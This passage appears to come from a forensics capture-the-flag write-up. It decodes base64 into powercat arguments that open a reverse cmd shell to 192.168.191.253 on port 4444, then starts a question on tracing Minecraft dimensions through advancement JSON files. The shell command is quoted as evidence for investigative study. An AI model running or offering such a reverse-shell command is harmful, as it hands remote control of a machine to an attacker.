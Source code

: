 Decode base64 string that we will have all the arguments that will be passed to powercat

```
-c 192.168.191.253 -p 4444 -e cmd
```

> Q15: Hello (New) World -> How many dimensions (including the overworld) did the player travel to in the "oldest of the worlds"?

We will need a little bit of research about how Minecraft keep track and store advancement of each user which will lead us to this [fandom wiki](https://minecraft.fandom.com/wiki/Advancement/JSON_format)

![5594fd3aee3486086de7963a6031eb39.png](../../_resources/5594fd3aee3486086de7963a6031eb39.png)

To end this game, user has to go to "Nether" and "The End" and kill the ender dragon, so an advancement that close to these activities would be this
